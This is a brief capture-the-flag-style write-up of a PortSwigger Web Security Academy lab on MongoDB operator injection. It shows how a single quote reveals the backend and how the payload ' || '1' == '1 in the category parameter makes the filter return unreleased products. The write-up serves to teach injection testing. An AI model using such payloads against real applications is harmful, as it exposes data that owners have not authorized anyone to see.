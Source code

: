 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fe4268c0-9213-4fe3-9ac4-924358e0a73a)

## Solution :

When we select a category, the URL looks as follows.

```
https://0afa00c303a959438002801500a90058.web-security-academy.net/filter?category=Pets
```

The backend MongoDB query might look something like - 
```mongodb
this.category == 'fizzy' && this.released == 1
```

Injecting an single quote (`'`) , makes the application to throw an verbose error, which says that it uses mongodb in the backend.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4599afe2-d810-4fa3-905b-95b29087c343)


So we can use operator injection to evaluate the query to true & display all the products(both released & not released). - `' || '1' == '1`

The query will now be executed as follows
```mongodb
this.category == 'fizzy' || '1'=='1'  && this.released == 1
```

Now we can see all the items & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a02ad56b-22cb-44d0-a9ff-1e523ec88ee3)
